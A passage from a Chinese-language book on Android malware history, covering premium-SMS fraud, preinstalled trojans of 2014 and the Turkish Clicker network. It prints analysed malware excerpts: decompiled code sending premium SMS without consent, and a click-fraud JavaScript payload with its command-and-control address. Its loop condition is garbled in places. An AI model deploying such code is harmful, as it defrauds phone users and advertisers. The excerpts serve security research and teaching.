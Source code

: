 ```
      v0_0.sendTextMessage("8782", 0, "HT androi", 0, 0);
      v0_0.sendTextMessage("8793", 0, "jm2 androi", 0, 0);
      Log.d("aaaaaaaaaaaaaaaa", "Da gui");
    } catch (IOException v7_0) {
      v7_0.printStackTrace();
      this.l.setOnTouchListener(new ncn.taicliphot.xemcliphot$1(this, v0_0));
      return;
    }
  }
```

*清单 2-8：应用* ncn.taicliphot *(v1, 38a3) 在未征得用户同意的情况下发送高级短信。*

由于当时的 Android 版本尚未具备动态权限对话框，用户在安装应用时便已经同意了应用请求的所有权限。当用户启动 Taicliphot 应用时，他们已经授予了短信权限。这使得该应用能够使用如下代码向高级号码发送短信。

#### ***第一个预安装的恶意软件***

2014 年，我们还见证了预安装恶意软件的早期实例。中国安全公司奇虎 360 发现了一种名为 OldBoot 的预安装恶意软件家族，并在 1 月的博客中记录了它，文章标题为“Oldboot：Android 上的第一个引导木马”。不久之后，卡巴斯基发现了 UUPay，这是一个收集敏感用户信息并可能向用户电话账单添加费用的恶意软件家族，出现在中国设备上，并在 3 月的博客中进行了记录，文章标题为“警惕：预安装的恶意软件！”

Lookout Mobile Security 发现了 DeathRing，这是一个能够进行短信和 WAP 诈骗的木马家族。你可以在 2014 年 12 月的文章“DeathRing：预装恶意软件再次袭击智能手机”中了解相关内容。

当年的第四个发现是 CoolReaper，由 Palo Alto Networks 报告，并在 12 月的文章“CoolReaper 揭秘：Coolpad Android 设备中的后门”中进行了描述。CoolReaper 是一个强大的后门家族，由中国制造商 Coolpad 预装在设备上。

### **大型恶意软件网络的崛起：2015 年与 2016 年**

2015 年和 2016 年，Android 恶意软件继续快速发展，使这两年成为 Android 恶意软件研究中最有趣的时期。随着 Android 防御措施的变化，短信诈骗的利润下降，恶意软件作者开始尝试其他形式的滥用。本节涵盖了从木马、钓鱼到 DDoS 攻击、WAP 诈骗等各种示例。

#### ***土耳其点击器***

2014 年，一个新的恶意软件家族出现在 Google Play 上，并迅速臭名昭著：土耳其点击器。土耳其点击器应用从命令与控制服务器加载 JavaScript 代码，并在 WebView 中执行。当年，Android 安全团队在发现该恶意软件使用感染的设备对 Google Play 发起 DDoS 攻击时了解了这个家族。我们不确定这次攻击是故意的还是过于激进地试图操纵 Google Play 的应用排名机制所产生的副作用。无论如何，Android 安全团队迅速关闭了土耳其点击器，移除了其应用以停止攻击。

2015 年，土耳其点击器卷土重来，迅速成长为当时 Google Play 上最大规模的恶意软件网络。它是第一个扩展 Google Play 开发者账户创建的恶意软件网络，多年来创建了成千上万个账户。其恶意软件作者尝试了不同的赚钱方式，最终选择了点击欺诈和 WAP 欺诈，重点针对土耳其用户。2016 年 1 月，美国–以色列的安全公司 Check Point 在一篇名为《土耳其点击器：Check Point 发现 Google Play 上的新恶意软件》的博文中揭露了这个网络。

列表 2-9 展示了土耳其点击器应用*com.gkrj.djjsas*（v2，c901）从其指挥和控制服务器下载的美化载荷。

```
85.248.227.164
http://olmazsanolmazgudieruvickleri.org/p30.php
javascript: function rastgele(e, n) {
  return Math.floor(Math.random() * (n - e + 1) + e)
}

function fireEvent(e, n) {
  var i = e;
  if (document.createEvent) {
    var t = document.createEvent("MouseEvents");
    t.initEvent(n, !0, !1), i.dispatchEvent(t)
  } else document.createEventObject && i.fireEvent("on" + n)
}

for (var links = document.getElementsByTagName("a"), 
    elmalar = null, i = 0; i0) {
  fireEvent(document.links[i], "mouseover"),
  fireEvent(document.links[i], "mousedown"),
  fireEvent(document.links[i], "click");
  break
};
```